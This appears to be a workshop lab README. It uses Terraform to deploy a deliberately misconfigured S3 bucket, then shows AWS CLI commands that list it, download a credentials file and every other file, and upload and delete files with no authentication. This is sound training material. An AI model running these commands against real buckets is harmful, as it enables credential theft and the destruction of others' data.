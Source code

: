 # S3 Misconfiguration

## Note - No aws configuration required for this lab

## please install the below cli tools 


* AWS CLI

```bash
sudo apt-get install awscli
```
* Terraform - click on the below link for further help on on installing 

```bash
https://developer.hashicorp.com/terraform/tutorials/aws-get-started/install-cli
```

* Step 1 Clone the repository 

```bash
git clone https://github.com/bvabhishek/s3misconfiguration.git
```
* Step 2: Change Directory

```bash
cd /s3misconfiguration
```
* Step 3: Initialise terraform 

```bash
terraform init
```

* Step 4: Run `terraform apply -auto-approve`

```bash
terraform apply -auto-approve
```

* Step 5: Export bucket name
```bash
export s3bucket=<bucketname> 
```

* Step 6: Lets try to list down the contents of bucket

```bash
aws s3 ls s3://$s3bucket
```

* Step 7: Now lets perform all the possible attack scenario 

* Step 8: Lets first download the fishy files - change to your current working directory

```bash
aws s3 cp s3://$s3bucket/creds.txt /home/abhi/seasides/

```
* To download all the files from the bucket use sync command

```bash
aws s3 sync s3://$s3bucket /home/abhi/seasides/test/
```

* Step 9: Let's upload a new file 

```bash
aws s3 cp seasides.jpeg s3://$s3bucket --no-sign-request --region us-west-2
```

* Step 10: Let's Delete a file 


```bash
aws s3 rm s3://$s3bucket/emp_pay_dont_delete.csv --no-sign-request --region us-west-2
```

* Step 11: Tear Down

```bash
terraform destroy -auto-approve
```

* By this we know that the attacker has performed all the malicious functionalities ie, CRUD operations which leads to Vulnerabilities such as 
 * Broken Authentication
 * Sensitive Information Disclosure 


 
